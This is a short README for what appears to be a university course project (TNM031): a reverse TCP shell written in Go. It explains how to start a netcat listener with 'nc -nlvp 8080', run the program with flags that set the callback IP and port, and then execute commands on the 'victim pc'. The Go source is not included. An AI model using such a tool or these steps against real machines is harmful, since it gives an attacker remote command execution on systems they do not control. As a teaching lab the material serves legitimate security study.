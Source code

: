 # This is a Reverse tcp connection attack implementation in Go for the course TNM031


## This is tested with netcat

## How to run

* This software is mainly tested with netcat and using two different terminals to simulate two different computers

* First run netcat in one terminal and specify a port
``nc -nlvp 8080``

* Then open a new terminal and run the program ``go run main.go`` if you haven't built the code, see this [Link](https://www.digitalocean.com/community/tutorials/how-to-build-and-install-go-programs) for building go programs, you can build to multiple operating systems.

* You can specify a port with the flag -p XXXX when running the go file, where XXXX is a port number. You can also specify the IP address with the -c flag

* Now you can run commands in the netcat terminal

* Try ``touch test.txt`` if victim pc is on linux, commands are OS specific


